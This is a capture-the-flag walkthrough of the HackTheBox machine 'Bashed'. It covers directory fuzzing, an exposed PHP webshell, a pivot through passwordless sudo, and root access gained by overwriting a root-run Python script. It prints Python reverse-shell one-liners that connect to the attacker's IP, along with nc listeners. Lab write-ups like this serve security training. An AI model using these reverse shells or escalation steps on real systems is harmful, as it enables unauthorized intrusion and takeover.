

# Bashed: 10.10.10.68

## Hints

- Google helps find the application source code on GitHub
- Directory fuzzing is your friend
- No privesc tools needed, just some basic commands and Linux file system knowledge

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80: Recon + Gobuster

Had a quick look around the website. Not much happening. No user input avenues.


Tried to find interesting files on the web server using `gobuster`. Since there is `php` mentioned on the web page, specified `gobuster` to look for `php` extensions.

```
└─$ gobuster dir -t 20 -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]    
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]    
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]     
/config.php           (Status: 200) [Size: 0]                                    
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/] 
```

## 80: dev/

The `dev` folder was found by `gobuster`... looks interesting and provides a directory listing.



Browsing to `http://10.10.10.68/dev/phpbash.php` provides a webshell as the `www-data` on the `bashed` machine.


## Flag: User

Looking at the `home` directory, and `/etc/passwd` file shows two users.

```
www-data@bashed:/var/www/html/dev# ls /home/
arrexel
scriptmanager
```

And the user flag is in the `arrexel` folder.

```
www-data@bashed:/var/www/html/dev# ls -lisa /home/arrexel
total 36
6314 4 drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
12  4 drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
3099 4 -rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
14114 4 -rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
14113 4 -rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
14115 4 drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
3098 4 drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
6315 4 -rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
14117 0 -rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
3100 4 -r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
```

Checking the character count of the `user.txt` file.

```
www-data@bashed:/var/www/html/dev# wc -c /home/arrexel/user.txt
33 /home/arrexel/user.txt
```

## 80: Webshell

Getting tired of this webshell, let's get something better. Use Python to get a reverse shell.

```
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.56",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

And set up the listener on my system:

```
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.68] 35882
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Scriptmanager

Another user exists on the system. Found by checking `/etc/passwd` or viewing the `/home` directory. Turns out you can just change the user to the `scriptmanager` user without a password.

```
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:                            
    env_reset, mail_badpass,                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So switch to the `scriptmanager` user.

```
$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Flag: Root

After a browse around, easy to see the `/scripts` folder looks out of place.

```
scriptmanager@bashed:~$ ls -lisa /scripts
ls -lisa /scripts
total 20
393492 4 drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  9 10:31 .
     2 4 drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
401540 4 -rw-r--r--  1 scriptmanager scriptmanager  215 Jun  9 10:29 test.py
393805 4 -rw-r--r--  1 root          root            12 Jun  9 09:29 test.txt
```

In addition, the output from `linpeas` showed a recently modified file in the same folder. This was how I found this directory.

```
[+] Modified interesting files in the last 5mins (limit 100)
/scripts/test.txt
```

Leverage the same Python reverse shell as before, this time changing the port number.

```
echo 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.56",9002));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' > test.py
```

And set up a listener on the attacker's system.

```
┌──(thomas㉿kali)-[~/machines/bashed]
└─$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.68] 55842
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Finally, check the character count of the `root.txt` file.

```
# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Getting a fully interactive shell with ZSH is a little funky

```bash
python -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo; fg  # This is the important/different line
ENTER
ENTER
```

## Useful Resources

- [HackTheBox Bashed - ippsec](https://www.youtube.com/watch?v=2DqdPcbYcy8)
- [HackTheBox (HTB): Bashed Walkthrough by Danish Zia](https://danishzia.medium.com/hackthebox-htb-bashed-walkthrough-ab402b9f4715)
- [HTB: Bashed by 0xdf](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html)
